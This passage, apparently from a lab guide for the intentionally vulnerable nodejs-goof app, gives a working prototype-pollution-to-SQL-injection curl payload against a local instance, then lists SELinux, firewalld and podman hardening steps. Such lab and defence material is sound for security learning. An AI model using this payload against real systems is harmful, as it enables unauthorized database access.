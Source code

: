 ```bash
# Cookie inspection
curl -v http://localhost:3001/ 2>&1 | grep "Set-Cookie"
```

---

### C. **SQL Injection** (via TypeORM - if MySQL enabled)
- **Requires**: MySQL container running
- **Exploit**: Prototype pollution leads to SQL injection

```bash
# Start MySQL
docker run -p 3306:3306 --rm -e MYSQL_ROOT_PASSWORD=root mysql:5

# Exploit via TypeORM
curl -X POST http://localhost:3001/users \
  -H 'Content-Type: application/json' \
  -d '{"name": "a", "address": {"__proto__": {"where": {"id": "2"}}}}'
```

---

## Red Hat Defensive Measures

### SELinux Confinement
```bash
# Create custom policy for Node.js app
semodule -i nodejs_app.pp

# Set file contexts
semanage fcontext -a -t httpd_sys_content_t "/opt/nodejs-goof(/.*)?"
restorecon -Rv /opt/nodejs-goof

# Audit violations
ausearch -m avc -ts recent | audit2why
```

### Firewalld Rules
```bash
# Restrict to internal network only
firewall-cmd --permanent --zone=internal --add-source=10.0.0.0/8
firewall-cmd --permanent --zone=internal --add-port=3001/tcp
firewall-cmd --permanent --zone=public --remove-service=http
firewall-cmd --reload
```

### Container Security
```bash
# Scan image
podman scan nodejs-goof:latest

# Run with security constraints
podman run --read-only \
  --cap-drop=ALL \
  --security-opt=no-new-privileges:true \
  --tmpfs /tmp:rw,noexec,nosuid,size=100m \
  -p 3001:3001 \
  nodejs-goof:latest
```

